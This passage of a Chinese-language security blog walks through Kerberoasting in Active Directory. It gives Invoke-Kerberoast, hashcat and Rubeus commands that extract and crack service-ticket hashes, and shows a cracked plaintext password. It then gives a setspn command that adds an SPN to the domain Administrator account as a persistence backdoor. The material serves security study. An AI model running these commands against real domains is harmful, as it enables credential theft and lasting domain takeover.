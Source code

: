 在域内一台主机上以普通用户权限执行：

```
Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | fl
```

-AdminCount表示选择高权限的用户

输出结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-1-15/2-2.png)

只提取出hash的参数如下：

```
Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation
```

输出结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-1-15/2-3.png)

使用hashcat破解的参数如下：

```
hashcat -m 13100 /tmp/hash.txt /tmp/password.list -o found.txt --force
```

破解结果如下图，成功获得明文口令`MySQLAdmin111!`

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-1-15/2-4.png)

**注：**

Rubeus也可以实现Invoke-Kerberoast的功能，地址如下：

https://github.com/GhostPack/Rubeus

参数如下：

```
Rubeus.exe kerberoast
```

## 0x06 Kerberoasting的后门利用
---

在我们取得了SPN的修改权限后，可以为指定的域用户添加一个SPN，这样可以随时获得该域用户的TGS，经过破解后获得明文口令

例如为域用户`Administrator`添加`SPNVNC/DC1.test.com`，参数如下：

```
setspn.exe -U -A VNC/DC1.test.com Administrator
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-1-15/3-1.png)
